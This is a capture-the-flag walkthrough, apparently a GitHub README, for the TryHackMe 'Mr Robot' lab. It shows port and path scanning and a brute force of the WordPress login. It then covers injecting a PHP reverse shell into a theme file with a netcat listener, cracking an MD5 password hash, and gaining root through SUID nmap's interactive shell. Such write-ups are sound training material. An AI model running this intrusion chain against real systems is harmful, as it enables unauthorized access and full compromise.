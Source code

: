 # [MrRobotCTF-THM](https://tryhackme.com/room/mrrobot)

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

-------------

# Scanning Steps :

**Nothing Found on source code.**

## STEP 1 :

Checking Robots.txt

```html
disallow : fsocity.dic , key-1-of-3.txt
```

**FOUND KEY 1**

## STEP 2 :

Checking Ports open :

```bash
nmap -sV -sC -u $IP

22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
```
## STEP 3 :
Scanning Paths

```bash
gobuster -u $IP -w medium.txt

/images (Status: 301)
/blog (Status: 301)
/sitemap (Status: 200)
/rss (Status: 301)
/login (Status: 302)
```

**LOGIN PATH WORDPRESS**

Could be BruteForcing.


---

# Exploiting Steps :

1) **BruteForce** **Login** and **Password** using **fsocity.dic** found.

## STEP 1 :

BurpSuite username :

```html
Invalid username.
```

```html
</strong>: The password you entered for the username <strong>Elliot</strong>
```
Username : **Elliot**

## STEP 2 :

BurpSuite Password :

```html
Login Success.

ER28-0652
```

Password : **ER28-0652**

-------

2) Exploiting **Admin Wordpress Theme Php Shell Injection**

## STEP 1 :

Injecting Php Shell in 404.php and Start Listening

```bash
$IP/error404
```

Connection Received

```bash
nc -nlvp 4444

Connection received on
```

## STEP 2 :

Checking Python :

```bash
which python

/usr/bin/python
```

## STEP 3 :

Checking Permissions

```bash
$ sudo -l

sudo: no tty present and no askpass program specified
```
## STEP 4 :

Fetching Folders and permissions

```bash
$ / -user root -perm /4000
/nmap
```
**FOUND NMAP**


## STEP 5

Login to robot user

```bash
$ ls
/home
$ cd home
$ ls
robot
$ cd robot
$ ls
key-2-of-3.txt
password.raw-md5
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Cracking **Password** using **CrackStation** : **abcdefghijklmnopqrstuvwxyz**

## STEP 6 :

Checking bash and **Installing terminal**

```bash
/bin/sh: 0: can't access tty; job control turned off

$ /usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$ ls
ls
key-2-of-3.txt	password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt

```

**FOUND KEY 2**

## STEP 7 :

Using Nmap Permissions

```bash
bash: cd: root: No such file or directory
robot@linux:~$ nmap --interactive
nmap> !sh
!sh
# whoami
whoami
root
# cd /root && ls
cd /root && ls
firstboot_done	key-3-of-3.txt
# cat key-3-of-3.txt

```

**FOUND KEY 3**
